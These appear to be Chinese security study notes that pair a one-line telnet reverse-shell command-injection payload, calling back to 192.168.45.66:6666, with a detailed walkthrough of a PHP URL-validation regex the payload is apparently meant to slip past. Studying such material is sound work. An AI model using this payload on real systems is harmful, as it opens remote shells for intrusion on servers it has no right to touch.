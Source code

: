 telnet反弹，防止没有telnetd

```shell
'$(mkfifo /tmp/test;telnet 192.168.45.66 6666 0</tmp/test|/bin/sh > /tmp/test)'
```

### 正则分析

```php
$reg = "/^(http(s?):\/\/){0,1}(?:[A-za-z0-9-]+\.)+[A-Za-z]{2,4}(?:[\/\?#][\/=\?%\-&~`@[\]\':+!\.#\w]*)?$/";
```

1. **定界符**：

   - 正则表达式通常被定界符包围，这里使用的是正斜线 `/`。定界符可以是任意非字母数字、非反斜线、非空白字符。

2. **开始 (`^`) 和结束 (`$`) 锚点**：

   - `^` 表示正则表达式应该从字符串的开始处开始匹配。
   - `$` 表示正则表达式应该在字符串的结尾处结束。
   - 这两个符号确保整个字符串完全符合正则表达式的模式。

3. **协议匹配**：

   - `(http(s?):\/\/){0,1}` 用于匹配 URL 的协议部分。
   - `http` 后面的 `(s?)` 表示 's' 字符可有可无，用于匹配 'http' 或 'https'。
   - `:\/\/` 是对冒号和两个正斜线的直接匹配。
   - `{0,1}` 表示前面的整个模式可以出现 0 次或 1 次。

4. **域名匹配**：

   - `(?:[A-Za-z0-9-]+\.)+` 匹配域名。
   - `[A-Za-z0-9-]+` 匹配一个或多个字母、数字或连字符。
   - `\.` 匹配点号（`.`）。在正则表达式中，点号通常表示任意字符，所以需要用反斜线转义。
   - 后面的 `+` 表示前面的模式（即一个标签，如 `example`）可以出现一次或多次。

5. **顶级域名匹配**：

   - `[A-Za-z]{2,4}` 匹配顶级域名（如 `.com`、`.net`）。
   - `{2,4}` 表示前面的字符模式至少出现 2 次，最多出现 4 次。

6. **可选的 URL 部分**：

   - `(?:[\/\?#][\/=\?%\-&~`@[]':+!.#\w]*)?` 用于匹配 URL 的路径、查询参数等可选部分。
   - `[\/\?#]` 首先匹配一个正斜线、问号或井号。
   - 后面的部分 `[\/=\?%\-&~`@[]':+!.#\w]*` 匹配 URL 中可能出现的各种字符，包括斜线、等号、百分号、连字符等。
   - `*` 表示前面的模式可以出现任意次，包括零次。
   - 最后的 `?` 表示这整个部分是可选的。

   

1. **分组** (`()`):
   - 在正则表达式中，圆括号用于创建分组。这允许您将多个字符或表达式组合在一起，以便对整个组执行操作（如重复、匹配等）。
   - 分组还有一个附加功能：它们可以捕获匹配的内容，这意味着您可以在正则表达式的其余部分或者在替换操作中引用这部分匹配的文本。
2. **非捕获分组** (`(?:...)`):
   - 有时候，您只需要分组的组合功能，而不需要捕获功能。在这种情况下，就可以使用非捕获分组。
   - 在分组的开始加上 `?:`（紧跟在左圆括号后面）来创建一个非捕获分组。这样，正则表达式引擎就不会保存这个分组匹配的内容，从而节省资源。

在正则表达式中，`\w` 匹配任何字母数字字符，包括下划线。这意味着它匹配所有的小写和大写字母（a-z, A-Z）、数字（0-9）以及下划线（\_）。
